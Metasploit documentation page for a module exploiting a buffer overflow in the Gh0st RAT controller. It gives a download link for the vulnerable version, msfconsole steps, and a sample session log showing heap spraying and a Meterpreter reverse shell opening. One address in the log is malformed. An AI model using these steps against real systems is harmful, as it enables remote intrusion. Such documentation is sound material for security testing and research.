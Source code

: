 ## Vulnerable Application

  This module exploits a buffer overflow in the Gh0st Controller when handling a drive list as received by a victim.
  This vulnerability can allow remote code execution in the context of the user who ran it.

  A vulnerable version of the software is available here: [gh0st 3.6](https://github.com/rapid7/metasploit-framework/files/1243297/0efd83a87d2f5359fae051517fdf4eed8972883507fbd3b5145c3757f085d14c.zip)

## Verification Steps

  1. Run the application
  2. Start msfconsole
  3. Do: `use exploit/windows/misc/gh0st`
  4. Do: `set rhost [ip]`
  5. Do: `exploit`
  6. Get a shell

## Options

### MAGIC

  This is the 5 character magic used by the server.  The default is `Gh0st`

## Scenarios

### Windows XP SP3 with gh0st 3.6

```
msf > use exploit/windows/misc/gh0st 
msf exploit(gh0st) > set rhost 192.168.2.108
rhost => 192.168.2.108
msf exploit(gh0st) > exploit

[*] Started reverse TCP handler on 1.2.3.4:4444 
[*] 1.2.3.1:80 - Trying target Gh0st Beta 3.6
[*] 1.2.3.1.108:80 - Spraying heap...
[*] 1.2.3.1:80 - Trying command 103...
[*] Sending stage (956991 bytes) to 1.2.3.1
[*] Meterpreter session 1 opened (1.2.3.4:4444 -> 1.2.3.1:1303) at 2017-08-26 16:53:58 -0400
[*] 1.2.3.1:80 - Server closed connection

meterpreter >
```
